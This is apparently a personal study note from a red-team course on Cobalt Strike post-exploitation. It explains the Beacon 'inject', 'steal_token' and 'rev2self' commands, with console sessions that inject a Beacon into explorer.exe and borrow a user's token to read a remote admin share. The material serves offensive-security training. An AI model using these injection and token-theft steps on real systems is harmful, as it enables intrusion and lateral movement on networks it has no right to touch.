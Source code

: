 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Process Injection]]  
___

## Description:  
The `inject` command will inject a Beacon payload in the form of shellcode into a target process. You can inject into processes owned by the current user without needing elevation, but local admin privileges are required to inject into processes owned by other users. If you inject into a process owned by a different user, your Beacon will run with all the local and domain privileges of that user.


```
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking
2496  716   svchost.exe                  x64   1           DEV\jking
2948  1200  sihost.exe                   x64   1           DEV\jking
3088  1200  taskhostw.exe                x64   1           DEV\jking
3320  3304  explorer.exe                 x64   1           DEV\jking
3608  796   ShellExperienceHost.exe      x64   1           DEV\jking
3800  796   SearchUI.exe                 x64   1           DEV\jking
4004  3320  shutdown.exe                 x64   1           DEV\jking
4016  4004  conhost.exe                  x64   1           DEV\jking
4472  1200  taskhostw.exe                x64   1           DEV\jking

beacon> inject 3320 x64 tcp-4444-local
[+] established link to child beacon: 10.10.17.231

```


The `steal_token` command will impersonate the access token of the target process. Like `make_token`, it's good for access resources across a network but not local actions. Use `rev2self` to drop the impersonation. This command opens a handle to the target process in order to duplicate and impersonate the access token, and therefore requires local admin privileges.

```
beacon> ls \\srv-2\c$
[-] could not open \\srv-2\c$\*: 5

beacon> steal_token 3320
[+] Impersonated DEV\jking

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 17:08:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/17/2021 18:28:36   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     02/17/2021 18:28:54   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     03/04/2021 10:12:52   pagefile.sys

beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 20 bytes

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (05:43 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
